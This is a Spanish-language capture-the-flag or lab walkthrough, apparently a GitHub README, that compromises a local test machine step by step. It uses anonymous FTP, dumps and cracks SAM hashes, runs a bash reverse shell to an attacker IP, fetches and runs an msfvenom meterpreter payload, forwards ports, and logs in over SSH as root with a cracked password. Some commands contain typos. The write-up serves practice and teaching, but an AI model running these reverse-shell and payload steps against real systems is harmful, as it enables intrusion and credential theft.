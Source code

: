 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.

```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 192.168.80.136 -oN escaneo
```
![alt text](image.png)

Intentaremos entrar al servicio ftp escribiendo el usuario por defecto de este.

```
ftp 192.168.80.136
user: anonymous
password: (pulsaremos la tecla enter)
```
![alt text](image-1.png)

Seguidamente analizaremos un poco y descargaremos los dos archivos que encontraremos en la carpeta backup para poderlos analizar.

```
get sam.bak
get system.bak
```
![alt text](image-2.png)

Para poder sacar la cuentas del servidor, necesitamos usar la herramienta samdum2 que da el hash de las copias de seguridad.

```
samdump2 system.bak sam.bak
```
![alt text](image-3.png)

Cojemos los hashes y usuarios que nos hadado y los metemos en un archivo txt para romper sus contraseñas. Seguidamente crackearemos las contraseñas con hashcat.

```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txtls
```
![alt text](image-4.png)

Recordando que en el escaneo de nmap en el puerto 4200 teniamos una web con shell, entonces la usaremos para conseguir nuestros objetivos. Para ello intentaremos hacer una revershell. Nos pondremos en escucha en un puerto y en la web escribiremos un payload.

```
nc .lnvp 4444
sh -i >& /dev/tcp/192.168.80.129/4444 0>&1
```
![alt text](image-5.png)

![alt text](image-6.png)

Finalmente nos quedará acceder a usuario root. Para ello vamos a ver que binarios tenemos disponibles con acceso a root.

```
find / -perm -u=s -type f 2>/dev/null
```
![alt text](image-7.png)

Al ver que no tenemos resultados, ejecutaremos el script de bash Linpeas. 

```
bash linpeas.sh
```
![alt text](image-8.png)

Vemos que nos da la contraseña de root cifrada.

```
john root-hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![alt text](image-9.png)

Ya tenemos la password del usuario root, solo nos quedará acceder a este. Para ello generaremos un payload de linux y compartirememos via servidor python, de daremos permisos de ejecución y lo ejecutaremos.

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.80.119 LPORT=4444 -f elf -o shel.elf
python3 -m http.server 80

wget 192.168.80.129/shel.elf
chmod +x shel.elf
./shel.elf
```
![alt text](image-11.png)

![alt text](image-12.png)

![alt text](image-13.png)

Seguidamente configuraremos nuestro exploit con el framework de metasploit.
```
msfconsole -q
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set lhost 192.168.80.129
set lport 4444
exploit
```

![alt text](image-14.png)

Finalmente haremos un portfordwarding para poder entrar como administrador via ssh. Para ello en el meterpreter escribiremos:
```
portfwd add -l 101 -p 22 -r 127.0.0.1
```
![alt text](image-15.png)

Finalmente entraremos por ssh en la ip local con el puerto seleccionado, deberemos escribir la password de administrador que hemos adquirido anteriormente.

```
ssh root@127.0.0.1 -p 101
password: shadow123
```
![alt text](image-10.png)
